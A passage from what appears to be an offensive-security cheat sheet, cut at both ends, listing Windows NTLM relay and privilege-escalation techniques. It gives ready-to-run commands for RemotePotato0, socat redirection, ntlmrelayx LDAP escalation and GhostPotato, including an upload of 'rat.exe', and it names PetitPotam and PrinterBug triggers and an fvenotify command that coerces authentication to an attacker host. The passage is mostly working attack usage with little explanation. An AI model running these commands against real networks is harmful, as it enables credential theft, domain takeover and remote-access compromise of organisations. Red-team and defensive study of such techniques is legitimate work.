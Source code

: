 					sudo socat -v TCP-LISTEN:135,fork,reuseaddr TCP:10.0.0.45:9999 &
					sudo ntlmrelayx.py -t ldap://10.0.0.10 --no-wcf-server --escalate-user normal_user
				* Note: if you are on Windows Server <= 2016 you can avoid the network redirector (socat) because the oxid resolution can be performed locally.

						query user
						.\RemotePotato0.exe -m 0 -r 10.0.0.20 -x 10.0.0.20 -p 9999 -s 1
			* Module 1 - Rpc2Http cross protocol relay server

					.\RemotePotato0.exe -m 1 -l 9997 -r 10.0.0.20 
					rpcping -s 127.0.0.1 -e 9997 -a connect -u ntlm
			* Module 2: Rpc capture (hash) server + potato trigger

					query user
					.\RemotePotato0.exe -m 2 -s 1
			* Module 3: Rpc capture (hash) server

					.\RemotePotato0.exe -m 3 -l 9997
					rpcping -s 127.0.0.1 -e 9997 -a connect -u ntlm
	* <details><summary>GhostPotato (Click to expand) -<br />[https://github.com/Ridter/GhostPotato](https://github.com/Ridter/GhostPotato)</summary><p>
		* Note: Needs testing
		* Examples
			* Get high privilege

					python ghost.py -smb2support -of out -c whoami

			* Just low privilege:

					python ghost.py -smb2support -of out --upload rat.exe
* .NET
	* C#
		* MS-RPRN RPC (Printspooler)
			* <details><summary>Recommended: SharpSpoolTrigger (Click to expand)</summary><p>
				* References
					* [https://github.com/cube0x0/SharpSystemTriggers](https://github.com/cube0x0/SharpSystemTriggers)
		* MS-EFS RPC (PetitPotam)
			* <details><summary>SharpEfsTrigger (Click to expand)</summary><p>
				* References
					* [https://github.com/cube0x0/SharpSystemTriggers](https://github.com/cube0x0/SharpSystemTriggers)
		* DCOM Potato triggers
			* <details><summary>SharpDcomTrigger (Click to expand)</summary><p>
				* References
					* [https://github.com/cube0x0/SharpSystemTriggers](https://github.com/cube0x0/SharpSystemTriggers)
* LOLBIN
	* <details><summary>fvenotify.exe (Click to expand)</summary><p>
		* <details><summary>References (Click to expand)</summary><p>
			* [https://twitter.com/cwinfosec/status/1452428878216155149](https://twitter.com/cwinfosec/status/1452428878216155149)
		* Working 2021.10.29
		* Command

				fvenotify \\<attacker>\<ANYTEXT>
* User Context
	* LOLBAS
		* rpcping
		* fvenotify.exe
* Local Admin Credentials Required
	<details><summary>Remote Potato (Click to expand)</summary><p>
		